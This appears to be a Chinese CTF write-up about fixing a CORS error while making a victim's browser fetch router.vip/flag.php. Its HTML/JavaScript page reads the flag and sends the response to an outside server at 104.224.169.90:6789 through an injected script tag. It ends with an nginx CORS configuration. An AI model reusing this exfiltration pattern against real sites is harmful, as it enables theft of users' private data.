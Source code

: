 ```url
Access to Imported resource at 'https://104.224.169.90/' from origin 'https://router.vip' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'https://router.vip' is therefore not allowed access.
```

这是说，我们的服务器没有设定Access-Control-Allow-Origin，导致没办法访问。

资料可以参考

[跨域资源共享 CORS 详解](http://www.ruanyifeng.com/blog/2016/04/cors.html)

[https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS)

我们修改本来的index.html

```

<html>
<meta http-equiv="Access-Control-Allow-Origin" content="*">
<head>
</head>
<script>

/**
 * Created by moxiaoxi on 2017/3/20.
 */
function getinfo(str) {
    var node=document.createElement("script");
    node.type="text/javascript";
    node.src="http://104.224.169.90:6789/"+escape(str);
    document.getElementsByTagName("HEAD")[0].appendChild(node);
}

var xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET","https://router.vip/flag.php",true);
xmlhttp.onreadystatechange=function()
{
    //if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        getinfo(xmlhttp.responseText);
    }
}
xmlhttp.send();


</script>
</html>
```

可是这样设置了，还是没用，不知道这样为啥会失败？。。

最后，修改了nginx的配置

```
    location / {
    add_header 'Access-Control-Allow-Origin' '*';
	add_header 'Access-Control-Allow-Credentials' 'true';
	add_header 'Access-Control-Allow-Headers' 'Authorization,Content-	Type,Accept,Origin,User-Agent,DNT,Cache-Control,X-Mx-ReqToken,X-Requested-With';
	add_header 'Access-Control-Allow-Methods' 'GET,POST,OPTIONS';
    }
```
